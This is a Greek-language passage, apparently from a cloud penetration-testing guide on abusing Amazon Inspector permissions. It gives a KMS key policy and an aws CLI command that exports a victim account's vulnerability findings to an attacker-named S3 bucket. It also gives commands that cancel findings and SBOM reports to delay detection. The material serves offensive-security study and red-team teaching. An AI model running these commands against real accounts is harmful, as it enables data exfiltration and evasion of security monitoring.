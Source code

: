 ```json
...
},
{
"Sid": "Allow victim Amazon Inspector to use the key",
"Effect": "Allow",
"Principal": {
"Service": "inspector2.amazonaws.com"
},
"Action": [
"kms:Encrypt",
"kms:Decrypt",
"kms:ReEncrypt*",
"kms:GenerateDataKey*",
"kms:DescribeKey"
],
"Resource": "*",
"Condition": {
"StringEquals": {
"aws:SourceAccount": "<victim-account-id>"
}
}
}
]
}
```
3. Εκτελέστε την εντολή για **δημιουργία της αναφοράς ευρημάτων** εξάγοντας την:
```bash
aws --region us-east-1 inspector2 create-findings-report --report-format CSV --s3-destination bucketName=<attacker-bucket-name>,keyPrefix=exfiltration_,kmsKeyArn=arn:aws:kms:us-east-1:123456789012:key/1a2b3c4d-1a2b-1a2b-1a2b-1a2b3c4d5e6f
```
* **Πιθανές Επιπτώσεις**: Δημιουργία και εξαγωγή λεπτομερών αναφορών ευπαθειών και λογισμικού, αποκτώντας πληροφορίες σχετικά με συγκεκριμένες ευπάθειες και αδυναμίες ασφαλείας.

#### `inspector2:CancelFindingsReport`, `inspector2:CancelSbomExport`

Ένας επιτιθέμενος θα μπορούσε να ακυρώσει τη δημιουργία της καθορισμένης αναφοράς ευρημάτων ή της αναφοράς SBOM, αποτρέποντας τις ομάδες ασφαλείας από το να λάβουν έγκαιρες πληροφορίες σχετικά με ευπάθειες και τον λογαριασμό υλικών λογισμικού (SBOMs), καθυστερώντας την ανίχνευση και αποκατάσταση θεμάτων ασφαλείας.
```bash
# Cancel findings report generation
aws inspector2 cancel-findings-report --report-id <value>
# Cancel SBOM report generatiom
aws inspector2 cancel-sbom-export --report-id <value>
```
* **Πιθανές Επιπτώσεις**: Διακοπή της παρακολούθησης ασφαλείας και πρόληψη της έγκαιρης ανίχνευσης και αποκατάστασης θεμάτων ασφαλείας.

#### `inspector2:CreateFilter`, `inspector2:UpdateFilter`, `inspector2:DeleteFilter`
